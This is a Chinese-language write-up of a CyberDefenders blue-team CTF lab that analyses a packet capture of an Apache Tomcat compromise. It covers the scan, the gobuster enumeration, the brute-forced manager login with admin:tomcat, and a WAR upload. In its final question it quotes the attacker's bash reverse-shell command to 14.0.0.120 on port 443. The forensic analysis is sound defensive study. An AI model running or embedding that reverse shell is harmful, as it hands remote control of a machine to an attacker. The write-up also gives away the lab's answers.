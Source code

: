 ```yaml
---
title: Tomcat Takeover Lab
published: 2025-08-08
updated: 2025-08-08
description: "CyberDefenders Tomcat Takeover Lab writeup"
image: ""
tags: ["CyberDefenders", "Blue Team CTF"]
category: "CyberDefenders"
draft: false
---
```


# Tomcat Takeover Lab

[Lab 連結](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)

## Q1

可以找到很多由 `14.0.0.120` 發送的 `SYN` ，但是伺服器一直回傳 `RST, ACK`，可能是拒絕連線

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102155.png)

所以看起來是 `14.0.0.120` 正在掃 port

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102189.png)

## Q2

用 [Instant IP Address Lookup](https://whatismyipaddress.com/ip-lookup) 可以知道這個 ip 來自中國

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102221.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102273.png)

## Q3

在 wireshark 搜尋包含 admin 的字串

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102306.png)

會發現 /admin 的 host 是 `10.0.0.112: 8080`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102340.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102376.png)

## Q4

不知道要怎麼確認攻擊者列舉目錄時使用的工具，偷偷看了 Hint

攻擊者在掃描或列舉目標網站的路徑或服務時會嘗試一些不存在的頁面，而導致 404，所以就去 wireshark 搜尋包含 404 的封包

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102411.png)

`User-Agent` 可能留有特徵字串，所以從 `User-Agent` 可以知道攻擊者使用的工具是 `gobuster`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102442.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102472.png)

## Q5

用 `tcp.port == 8080 && ip.addr == 14.0.0.120 && http.request.method == "GET"` 篩選出攻擊者對 Tomcat 8080 端口的所有 HTTP GET 請求。

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102505.png)

其中`GET /manager/html` 可以發現攻擊者一直在以不同帳號密碼嘗試登入，所以可以知道攻擊者是發現 `/manager` 與 admin 頁面有關

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102537.png)

## Q6

在 `GET /manager/html` 成功得到回應的`Authorization`可以得到 Base64 ，用 CyberChef decode 之後可以得到帳號密碼 `admin:tomcat`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102570.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102610.png)

## Q7

可以在 `POST /manager/html/upload` 中找到被上傳的檔案 `JXQOZY.war`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102640.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102670.png)

## Q8

檢查檔案上傳後的 TCP Stream

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102701.png)

就能發現攻擊者透過 `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` 確保在受感染的電腦上保持持久性

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102755.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102788.png)

---

```txt
I successfully completed Tomcat Takeover Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/n1ght0w1/tomcat-takeover/

#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender
```

---

## 工具

[Instant IP Address Lookup](https://whatismyipaddress.com/ip-lookup)
查詢 ip

[A-Packets](https://apackets.com/)
分析封包
